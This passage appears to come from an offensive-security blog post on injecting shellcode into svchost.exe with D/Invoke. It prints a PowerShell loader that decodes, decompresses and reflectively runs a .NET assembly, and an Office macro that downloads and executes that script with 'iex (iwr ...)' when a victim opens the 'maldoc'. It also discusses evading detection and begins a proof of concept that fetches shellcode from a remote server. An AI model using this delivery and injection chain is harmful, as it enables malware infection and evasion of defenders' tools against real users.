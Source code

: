 Create a PowerShell script to decode this compressed and encoded bytestream.
```powershell
$a = New-Object System.IO.MemoryStream(, [System.Convert]::FromBase64String("compressed and encoded bytestream here"))
$b = New-Object System.IO.Compression.GZipStream($a, [System.IO.Compression.CompressionMode]::Decompress)
$c = New-Object System.IO.MemoryStream;
$b.CopyTo($c)
[byte[]]$d = $c.ToArray()
$e = [System.Reflection.Assembly]::Load($d)
$f = [System.Console]::Out
$g = New-Object System.IO.StringWriter
[System.Console]::SetOut($g)

$h = [Reflection.BindingFlags]"Public,NonPublic,Static"
$i = $e.GetType("injection.Program", $h)
$j = $i.GetMethod("Main", $h)
$j.Invoke($null, (, [string[]]$args))

[System.Console]::SetOut($f)
$k = $g.ToString()
$k
```

Get this PowerShell script to be loaded and executed via an Office macro, something like:
```vbnet
Dim str As String
    walk = "powershell iex (iwr http://hostingserver/notmalicious.ps1 -Useb)"
    CreateObject("Wscript.Shell").Run walk, 0
```
When the victim opens the maldoc and enables macro, WINWORD will load our PowerShell script, decode, decompress and reflectively run the .NET Assembly.

{{< image src="/images/earlybird_injection.png" alt="inject into svchost.exe" position="center" style="border-radius: 8px;" >}}
*Process injection into svchost.exe*

{{< image src="/images/not_caught_by_getInjectedThread.png" alt="Get-InjectedThread could no longer detect our injection" position="center" style="border-radius: 8px;" >}}
*Get-InjectedThread could no longer detect our injection*

## Is this good enough?
Well no, modern AV/EDR can still nuke our work immediately, this is mainly to demonstrate a common injection technique implemented with D/Invoke.
In Part 2, we can make our `svchost.exe` malware even more benign by PPID Spoofing, making it appear as it got spawned by `services.exe`, which is normally the case. I'm also working on invoking system calls with D/Invoke instead of standard API calls to defeat API Hooking. Stay tuned!

Full PoC is below:
```csharp
using System;
using System.Diagnostics;
using System.IO;
using System.Runtime.InteropServices;
using System.Net.Http;

namespace DInvoke_Injection
{

	public class Program
	{

		public static void Main(string[] args)
		{

			// Grab shellcode from a remote server
```